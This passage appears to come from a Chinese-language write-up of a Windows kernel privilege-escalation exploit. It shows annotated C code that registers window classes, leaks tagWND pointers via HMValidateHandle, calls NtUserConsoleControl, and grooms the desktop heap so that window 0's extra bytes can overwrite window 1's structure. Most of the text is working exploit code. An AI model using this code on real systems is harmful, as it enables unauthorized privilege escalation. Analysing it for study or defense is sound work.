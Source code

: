 ```
WndClass.lpszClassName = L"Class2";        // 窗口类名为 Class2
atom2 = RegisterClassEx(&WndClass);        // 注册 Class2
```

**4.2 内存布局**

206 – 221 行注册了两个窗口类，两个窗口类的主要区别是 cbWndExtra 的大小：

```
ULONG_PTR dwpWnd0_to_pWnd1_kernel_heap_offset = 0;
for (int nTry = 0; nTry < 5; nTry++) {    // 最多尝试 5 次内存布局
    HMENU hMenu = NULL;
    HMENU hHelpMenu = NULL;
    // 创建 50 个窗口
    for (int i = 0; i < 50; i++) {
        if (i == 1) {    // i = 1 时创建一个菜单 hMenu
            hMenu = CreateMenu();
            hHelpMenu = CreateMenu();

            AppendMenu(hHelpMenu, MF_STRING, 0x1888, TEXT("about"));    // 准备一个 Item
            AppendMenu(hMenu, MF_POPUP, (LONG)hHelpMenu, TEXT("help"));    // 为菜单添加 Item
        }
        g_hWnd[i] = CreateWindowEx(NULL, L"Class1", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, hMenu, hInstance, NULL);    // 创建窗口，只有窗口 0 没有菜单
        g_pWnd[i] = (ULONG_PTR)fHMValidateHandle(g_hWnd[i], 1); // 泄露每个窗口 tagWNDk 在用户空间的映射指针
    }
    // 销毁掉后 48 个窗口，使它们 tagWNDk 占用的桌面堆块处于空闲状态，再创建窗口时很有可能再用到这些空闲的堆块
    for (int i = 2; i < 50; i++) {
        if (g_hWnd[i] != NULL) {
            DestroyWindow((HWND)g_hWnd[i]);
        }
    }
    // ptagWNDk + 8 保存了 tagWNDk 相对于桌面堆基址的偏移
    g_dwpWndKernel_heap_offset0 = *(ULONG_PTR*)((PBYTE)g_pWnd[0] + g_dwKernel_pWnd_offset);
    g_dwpWndKernel_heap_offset1 = *(ULONG_PTR*)((PBYTE)g_pWnd[1] + g_dwKernel_pWnd_offset);
    // 对窗口 0 调用 ConsoleControl，使其 pExtraBytes 处于 offset 间接寻址模式
    ULONG_PTR ChangeOffset = 0;
    ULONG_PTR ConsoleCtrlInfo[2] = { 0 };            // 参数长度为 0x10 字节
    ConsoleCtrlInfo[0] = (ULONG_PTR)g_hWnd[0];        // 参数信息的第一个 8 字节存放窗口句柄
    ConsoleCtrlInfo[1] = (ULONG_PTR)ChangeOffset;    // 第二个 8 字节对利用没有影响
    NTSTATUS ret1 = g_fNtUserConsoleControl(6, (ULONG_PTR)&ConsoleCtrlInfo, sizeof(ConsoleCtrlInfo));    // 功能 6
    // 现在窗口 0 重新在桌面堆申请了一片空间作为扩展内存，pExtraBytes 存储其相对于桌面堆基址的偏移
    dwpWnd0_to_pWnd1_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
    if (dwpWnd0_to_pWnd1_kernel_heap_offset < g_dwpWndKernel_heap_offset1) {    // 需要保证这片新空间地址小于窗口 1 tagWNDk 结构体所在的地址，这样才能通过窗口 0 扩展内存越界修改 tagWNDk1
        dwpWnd0_to_pWnd1_kernel_heap_offset = (g_dwpWndKernel_heap_offset1 - dwpWnd0_to_pWnd1_kernel_heap_offset);    // 记下它们之间的偏移
        break;        // 退出循环
    }
    else {
        // 如果进了 else，说明这次内存布局失败，回收所有资源
        if (g_hWnd[0] != NULL) {
            DestroyWindow((HWND)g_hWnd[0]);
        }
        if (g_hWnd[1] != NULL) {
            DestroyWindow((HWND)g_hWnd[1]);    

            if (hMenu != NULL) {
                DestroyMenu(hMenu);
            }
            if (hHelpMenu != NULL) {
                DestroyMenu(hHelpMenu);
            }
```